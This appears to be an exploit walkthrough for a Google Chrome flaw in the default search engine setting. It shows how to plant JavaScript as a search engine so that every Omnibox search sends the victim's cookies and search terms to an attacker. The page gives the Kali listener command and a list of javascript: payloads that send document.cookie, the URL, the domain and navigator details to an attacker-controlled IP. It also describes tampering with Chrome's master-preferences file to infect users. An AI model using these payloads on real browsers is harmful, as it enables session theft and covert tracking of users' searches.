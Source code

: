 Google Chrome Search Poison – Default Search Engine Exploit
##Introduction
In December 2015, I discovered a vulnerability in Google Chrome's (Chromium included) default search engines feature, whereby a lack of input sanitation allows an attacker to store XSS in the victim's browser.<br>
In this walkthrough we'll set up a Python SimpleHTTPServer and intercept the victim’s Cookies and search keywords.
##Video Demo
<https://www.youtube.com/watch?v=WoF-LkA6fMk><br>
The video demonstration involves manipulation of the chrome master-preferences file to infect the user with the malicious search engine. The user is then directed to the attackers apache server, which extracts the search query, cookies and other system information and seamlessly directs them back to their search.
##Setting up the Listener in Kali
<code>
<div class="code">
root@kali:~$ <com>python -m SimpleHTTPServer 80</com>
</div>
</code>
##Setup on Victim Machine
1. Go into **"Settings"** in Google Chrome<br>
2. Click on **"Manage Search Engines"**<br>
3. Enter your malicious JS and click **"Make Default"**<br>
<br>
**Example**
<code>
<div class="code">
<com>javascript:window.location='http://192.168.1.182/%s'+escape(document.cookie);</com>
</div>
</code>
Note: 192.168.1.182 is our SimpleHTTPServer.<br>
Now whenever the victim searches using Google Chrome’s Omnibox, the malicious JS will trigger, forwarding you their cookie and search string (%s).<br>
**Other examples**
<code>
<div class="code">
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.cookie);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.baseURI);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.domain);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(document.URL);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(location.host);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appCodeName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appName);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.appVersion);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.userAgent);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.platform);<br>
javascript:window.location=’http://192.168.1.182/%s ‘+escape(navigator.product);
</div>
</code>

Tags: search-poison
